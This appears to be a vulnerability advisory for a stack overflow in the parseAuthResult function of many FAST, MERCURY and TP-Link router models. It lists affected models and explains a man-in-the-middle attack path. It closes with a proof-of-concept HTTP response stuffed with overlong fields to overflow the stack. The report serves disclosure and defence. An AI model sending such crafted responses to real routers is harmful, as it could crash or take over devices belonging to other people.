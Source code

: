# parseAuthResult  Vulnerability Report

FAST,MERCURY and TP-Link routers have a stack overflow issue in `parseAuthResult` function`.

Local users could get remote code execution, this vulnerability currently affects three types of routers:

- FW, FAC, FR series of FAST router, including FW325R, FAC1203R, FW326R, FR100P-AC, FAC1900R, FAC1200R, etc ;
- D, M, MW series of MERCURY router, including D121G, MW310R, M6G, MW313R, D12A, MW325R, D196G, MW300R, D12, MW315R, MW351R, D126, M9G, D19, MW326R, MR100P-AC, D12B, etc ;
- WDR, WR, R, WA series of TP-Link router, including TL-WDR5620, TL-WDR5650, TL-WR842N, TL-WDR7660, TL-WDR7620, TL-R470P-AC, TL-WDR7661, TL-WDR7650, TL-WDR7651, TL-WA933RE, etc.

It affects the linux system and vxworks system. we believe there are much more models suffered from this vuln.

## Vulnerability Description

**Threat model**: An attacker can intercept the traffic between router and Intenet. That is, an attacker can perform a man-in-the-middle attack on the router.

This vulnerability happen when `parseAuthResult` handle data from cloud server by using `strncpy`.

1. Attackers intercept the response from cloud server.
2. Then attackers send a malicious response to the router. The data between two `\r\n` in this malicious response is filled a long string.
3. `parseAuthResult` get these data by using `strstr` . However, the length is not checked.
4. Finally, whole string of these data are copyed to the stack by `strncpy` up to ten times and lead to a buffer overflow.

![微信图片_20241014161335.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/1ffed55b-ee53-4441-be11-70b5a405738b/bc0e3da7-63ef-4310-95e9-028662fbf696/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_20241014161335.png)

PoC

```
HTTP/1.1 200 OK
Content-Type: text/html;charset=UTF-8
Content-Length: 200
Connection: close
Cache-control: no-cache

\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111\r\n
```
